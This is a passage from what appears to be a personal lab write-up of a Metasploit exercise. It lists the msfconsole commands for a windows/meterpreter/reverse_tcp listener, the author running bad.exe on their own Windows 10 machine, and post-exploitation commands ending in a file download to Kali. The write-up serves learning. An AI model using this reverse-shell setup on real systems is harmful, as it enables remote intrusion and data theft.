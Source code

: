 3.  In Kali, started Metasploit (msfconsole) and set up the listener:
- use exploit/multi/handler
- set PAYLOAD windows/meterpreter/reverse_tcp
- set LHOST 192.168.56.109
- set LPORT 4444
- exploit

> ![shot](SHOTS/media/image16.png)

4.  On the Windows host, double-clicked bad.exe on the E: drive to
    execute it.

5.  Gained a Meterpreter session and ran commands:

-   `sysinfo` to confirm system details.

-   `getuid` to verify myself hahaha...

-   `ps` to list running processes on my Windows 10.

-   `cd C:\\` and `dir` to navigate and view directories like Users.

-   I downloaded a file from the windows machine unto the kali vm.
